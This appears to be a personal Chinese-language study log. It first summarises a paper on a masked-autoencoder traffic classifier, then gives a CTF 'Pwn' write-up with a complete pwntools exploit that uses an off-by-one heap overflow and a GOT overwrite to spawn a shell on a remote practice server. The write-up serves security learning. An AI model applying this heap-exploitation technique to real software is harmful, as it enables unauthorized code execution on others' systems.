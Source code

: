 # 2024-1-28

## Yet Another Traffic Classifier: A Masked Autoencoder Based Traffic Transformer with Multi-Level Flow Representation

### 工作摘要

该论文设计了一个MFR矩阵，通过格式化的矩阵来表示原始流量的多层次信息，并开发了一种新的流量Transformer，以实现在各个层次上更有效的特征提取。为了减少对标记数据的依赖，该论文利用了大规模的未标记数据进行预训练，然后使用少量标记数据进行流量分类。

### 论文思路

预训练方法通过自监督学习显著降低了对标记训练数据的需求，对于流量分类通常将其视为某种语句利用NLP的方法进行预训练。但由于流量字节缺乏明显的高级语义，所以使用CV来提取流量字节的潜在含义更为合适。

但在CV中以往的与训练方法依赖于数据增强以形成成对的正样本和负样本，用于通过对比学习进行预训练。但流量数据的数据增强会严重破坏原始信息无法进行对比学习，而MAE方法则可以通过掩蔽用于中间训练的补丁来构造有效的流量数据预训练模型

![1](image/1.png)

#### MFR矩阵

该方法使用了一个MFR矩阵与格式化的二维矩阵来表示原始流量，首先根据IP地址、端口号和协议类型将原始流量拆分为流。为了避免引入干扰，该方法会删除流的以太网报头，将端口号设置为零，并将IP替换为随机地址，但保持其传播方向。最后，捕获流中的 $M$ 个相邻分组，并将其格式化为大小为 $H*W$ 的二维矩阵。该矩阵拥有以下三种特征

1. 字节层面：MFR流量矩阵中每一行仅包括一种类型的流量字节，分为报头行和有效载荷行
2. 分组层面：每个分组由包头矩阵和有效载荷矩阵表示，形成大小为 $H/M*W$ 的分组级矩阵
3. 流量层面：由于流是由有序的数据包组成的，因此M个相邻的数据包级矩阵在第二维中堆叠以形成最终的MFR矩阵。

该文将MFR矩阵设置为包含5个数据包的矩阵，总共40行，每行包含40个字节。每个数据包的报头由2个80字节的报头行表示，能够包含IP层报头（20字节）、TCP报头（20字节）或UDP报头（8字节）以及可选报头。为每个数据包的有效载荷分配6个有效载荷行，并在超过240字节时执行截断。如果有效字节数不足，则将用0字节填充。

#### Traffic Transformer

根据流量的特点，设计了由嵌入模块、数据包级注意力模块和流级注意力模块组成的Traffic Transformer，并利用MFR矩阵对流量进行有效分类。

##### 嵌入模块

MFR矩阵 $x∈R^{H \times W}$ 会被分成大小为 $P \times P$ 非重叠2D补丁， 数量为 $N=HW/P^2$ ,表示为 $x_p∈R^{N \times P^2}$。然后通过线性层将补丁映射到 $D$ 维向量作为补丁嵌入。为了保持在MFR中至关重要的位置信息，将位置嵌入 $E_{pos}$ 添加到补丁嵌入中作为业务编码器的输入。


$$
x_0 = [x^1_pE;x^2_pE;...;x_p^NE] + E_{pos}
$$

在本文中作者取 $D = 192，P = 2，N = 20*20 = 400$ 使一个补丁的所有元素都表示相同类型的原始字节，每个包矩阵包含一行报头补丁和三行有效载荷补丁。

##### 数据包级注意力模块

该模块使用了一种基于Vision Transformers的流量编码器

它由交替的多头自注意层（MSA）和前馈层组成。为了优先学习分组内的报头补丁或有效载荷补丁之间的依赖性，业务编码器仅在同一分组中的补丁之间而不是MFR矩阵中的所有补丁之间执行多头自注意。

MSA层允许数据包的补丁根据不同头 $Concat（head1，· · ·，headn）$ 的相关程度有效地相互交互，并且每个头由注意力函数计算：


$$
Q=x_lW^Q,K=x_lW^K,V=x_lW^V
\\
Attn(Q,K,V)=SOFTMAX(  \frac{QK^T}{\sqrt D_k})V
$$

其中 $W^Q、W^K、W^V ∈ R^{D×D_k}$ 是可学习的参数。在这项工作中采用 $n = 16$ 平行注意头和 $L = 4$ 交替层。

##### 流级注意力模块

数据包级注意力模块输出了MFR矩阵 $x∈R^{H \times W}$ 中每个补丁的重要数据包级特征，为了进一步提取数据流上不同包的长距离关系依赖，该文中为了以更粗的粒度学习数据包间的关系采用了行池化（RP），它按行将数据包级注意力模块所输出的补丁的特征进行部分平均池化来生成行补丁。


$$
x_r=Pooling(x^{'}_p)
$$


每个分组包含1个报头行补丁和3个有效载荷行补丁，表示分组内的部分特征，将MFR矩阵中的所有行补丁输入到流量编码器中，MSA层捕获行补丁之间的流级信息。最终输出是一列行补丁特征$x_c ∈ R^{\sqrt{N}×D}$，这些行补丁特征进一步被执行列池化（CP）以获得整个MFR矩阵的最终表示 
 $x_{MFR} ∈ R^D$：


$$
x_{MFR}=Pooling(x_c)
$$


## Pwn



进入主函数之后是一个功能选取界面，分别是开辟空间，编辑空间，展示空间，释放空间。

![image-20230916122401722](image/2.png)

进入空间开品函数内部，这里一次会开辟两个空间，第一个是0x10大小的空间，分别存储开辟空间的大小和地址，接着正常开辟空间。

![image-20230916123948037](image/3.png)

进入编辑函数我们可以看见他会根据第一个创建空间中的信息进行空间编辑，并且写入的大小会造成**off by one**漏洞，我们可以多输入一个字节来修改空间的大小，我们可以开辟一个0x18大小的空间，这样溢出的字节就可以修改下一个控制空间的大小。这样我们就可以控制下一个控制空间，将其大小改为8，地址改为free的got表，进行输出和修改进行攻击

```python
from pwn import *
from LibcSearcher import LibcSearcher
sh=remote("node4.buuoj.cn",25191)
elf=ELF('./heapcreator')

def create(length,value):
        sh.recvuntil("Your choice :")
        sh.sendline("1")
        sh.recvuntil("Size of Heap : ")
        sh.sendline(str(int(length)))
        sh.recvuntil("Content of heap:")
        sh.sendline(value)
def edit(index,value):
        sh.recvuntil("Your choice :")
        sh.sendline("2")
        sh.recvuntil("Index :")
        sh.sendline(str(int(index)))
        sh.recvuntil("Content of heap : ")
        sh.sendline(value)
def show(index):
        sh.recvuntil("Your choice :")
        sh.sendline("3")
        sh.recvuntil("Index :")
        sh.sendline(str(int(index)))
def delete(index):
    sh.recvuntil('Your choice :')
    sh.sendline('4')
    sh.recvuntil(b'Index :')
    sh.sendline(str(int(index)))

create(0x18,b'aaaa')
create(0x10,b'bbbb')
create(0x10,b'cccc')
create(0x10,b'/bin/sh')

edit(0,b'a'*0x18+b'\x81')
delete(1)

size = b'\x08'.ljust(8,b'\x00')
payload = b'd'*0x40+ size + p64(elf.got['free'])
create(0x70,payload)
show(2)
sh.recvuntil('Content : ')
free_addr = u64(sh.recvuntil('Done')[:-5].ljust(8,b'\x00'))
print(hex(free_addr))
libc=LibcSearcher("free",free_addr)
system_addr=free_addr+libc.dump("system")-libc.dump("free")

edit(2,p64(system_addr))
delete(3)
sh.interactive()
```

